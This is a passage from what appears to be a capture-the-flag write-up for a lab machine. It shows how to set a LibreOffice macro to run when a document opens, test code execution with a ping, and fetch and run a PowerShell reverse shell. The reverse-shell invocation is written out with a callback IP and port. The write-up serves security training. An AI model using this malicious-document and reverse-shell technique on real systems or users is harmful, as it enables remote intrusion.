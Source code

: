 We’ve split up the command into three strings and concatenate them before execution using the Shell() function.Next, save the document and close the editor. We need to make sure that the macro is run as soon as the document is opened. To do that, go to Tools > Customize and click on the Events tab, then select “Open Document” and click on “Macro” to assign it a macro. Now expand the document tree and select the Macro name on the right.

![img](assets/2QGRwYNeVUP2TVjOHoJMuOFYQJyD_bLSVLR4f1BXda2HEoWQ9U4UzWdV4CR-efGNFfp6kHqX-GEE2WVedur0m1vLopR8TumiWLxp3RUvAcWwctCgUDLRMr7zgam3UgblmMEmRk3Z)

Clicking on Ok should assign our macro to the “Open Document” event.

![img](assets/Gb8gD1XOpiMVpiwArwTbXC1t4lTmwikAKOXc9d_4aZ_yQMI8dcjzWNTgUzyaf5ir1bi_mppWGdy-8Fd41ExQ0ZzbfR6BlZWNM5R5ZlM_UeS3PCxhJ8ho0LQS97c9E7TV96Y3KtPj)

### Upload ping POC

Save the document, start an ICMP listener and upload the document to the dropbox.

![img](assets/HryxFnOoezafMB4WgXWX-RmNSzP1MZyfeCP4HtH71NCc5DMxx4gWQUsgX3LbPTSMqJguqiZqMPKi0MTQ4_UcfQy9wVrv3W5hwQ50NZqNOR18MDmJhIlyUoFaon28gyEYRxCmF1Q3)

![img](assets/ENfAUKR64T5kDeVJscfYttyzL8-VcKVJgQwxztGQ2EoMmIBe947jLjoEF-WBXfi3k3fc1ym8OaSvSbCWnVPsfG79mP1-QH7eNlLKMRuEij8t808mOthkGzeA6TGwHnDlxssh-w28)

### Shell

We received ICMP requests on our listener, which confirms code execution. Let’s try downloading and executing a TCP reverse shell which can be found [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

![img](assets/YFA-YO9PwPMsj7To8aQpoVqIXyjk7BphOQjZETQLCRJG8S8yH04yo8oodWKC2CwGR2WeH4r3nyt2MmMf5IygVF03B7B-ulcNPmMqJALjBbVAg31x2gZuN72bLGrlB4IdpvgUYcWN)

Add the following line to the end of tcp.ps1:

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 4444
```

Swap the base64 encoded payload in the existing macro with the one created above and ensure an HTTP server is running in the folder.

![img](assets/vd7W7MMjZkw0jXj4ZxCMUpZteMrF3VKZNZUP01SwLJBfXHabyUZx7wdnFkSeUPM3CkaHg8Vzuu2Co1Xt2-tz6SWjoLec0N9rj_kGxe7V5ufaI44ZAVh8qkHfWHipuNTnUsQCBr48)

A shell as the user luke should be received after uploading the document. Here we can get user.txt.

## Lateral Movement

Looking at the IIS root folder, we find three sub-folders which we don’t have access to.

![img](assets/e1W8gcDTyz7PDroHzELgUXIQurtaAqrxTARF3m-rIfMUQv7ZdEHoVmkZ9mFQv7fneRnlcu233CB-IgEMGTCCFGZoE6Q2fsdO1XXTuUQaOywo91F5voLN_JbsrQkWfKoTObfmjObo)

We’ve already inspected the IP and the blog vhost. However, there seems to be another vhost named “re”. Let’s add re.htb to the hosts file and browse to it.

![img](assets/jKKZuYjwuGySDmAR975SyjhW_hwFQ0uPmDeJTm7UbuAi3NI5xqmwMDUD6ftNkfidU3Xrp3caezF0-35FXB8qNFZwtjSovss1l3--PQfxdB7j_YdbdumZf6pidWF3QJAmqOGAQWuB)

The page displays the message above, but examination of the source code reveals the following:
